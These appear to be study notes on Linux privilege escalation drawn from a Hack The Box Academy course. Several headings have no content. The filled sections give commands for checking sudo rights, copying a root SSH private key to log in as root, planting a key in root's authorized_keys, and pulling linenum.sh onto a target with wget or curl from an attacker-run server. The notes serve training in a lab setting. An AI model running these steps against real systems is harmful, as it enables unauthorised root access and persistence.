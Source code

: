 ## Kernel Exploits

## Vulnerable Software

## User Privileges

```
sudo -l # see commands user can run
sudo su - # switch to root user
sudo -u user /bin/echo Hello World! # run sudo command as another user
```



## Scheduled Tasks

## Exposed Credentials

## SSH Keys

```
# if can access /root/.ssh/id_rsa then can copy id_rsa file from terminal
cat /root/.ssh/id_rsa # copy this and paste it in a new text file on local machine
vim id_rsa # create text file on local machine and paste id_rsa text from target
chmod 600 id_rsa
ssh root@10.10.10.10 -i id_rsa # login as root on target

# if we have write access to /.ssh/ then we can place our own public key in target ssh director:

ssh-keygen -f key # this makes two files: key and key.pub
# then copy key.pub to the target and place it in /root/.ssh/authorized_keys
ssh root@10.10.10.10 -i key # now remote into the target as root
```

# [Transferring Files](https://academy.hackthebox.com/module/77/section/849)

## Using wget

```
# 1: start a python web server on our machine in the directory that contains the files we # want to transfer:
python3 -m http.server 8000

# 2: use wget on target machine to get files from our server
wget http://10.10.14.1:8000/linenum.sh

# or can use curl:
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```
